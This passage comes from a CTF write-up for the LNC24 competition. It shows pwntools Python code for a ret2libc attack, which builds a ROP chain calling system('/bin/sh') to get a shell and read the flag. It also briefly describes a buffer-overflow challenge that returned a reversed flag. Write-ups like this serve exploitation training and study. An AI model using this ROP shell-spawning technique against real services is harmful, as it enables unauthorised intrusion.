 ```py
print(f'libc base: {hex(libc.address)}')
```

Second part of the attack to get shell (which I then used `cat ../flag && ls` to print the flag):

```py
# get shell
r.recvuntil(b'> ')
r.sendline(b'3')
r.recvuntil(b'> ')

rop = ROP(libc)
rop.call('system', [next(libc.search(b'/bin/sh\x00'))])

payload = b'A' * offset
payload += ret
payload += rop.chain()
payload += ret

print(f'payload: {payload}')

r.sendline(payload)
r.interactive()
```

Flag: `LNC24{reT2l1bC_iSNt_tH4t_hARd_aFt3r_aLLL}`

-----

## InversXin

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/0e3923da-6f24-4f49-9eaa-8778efbf5de8)

I was playing around with the server and tried to overflow the buffers which gave the flag which is in reverse.

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/5ac0c4e2-d5d5-44aa-b86a-559367f80d64)

Need to mirror reverse this:

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/c853b979-ff3d-4052-bc44-10817c791a9f)

Flag: `LNC24{R!3v@3r5#eDU$See?%}`
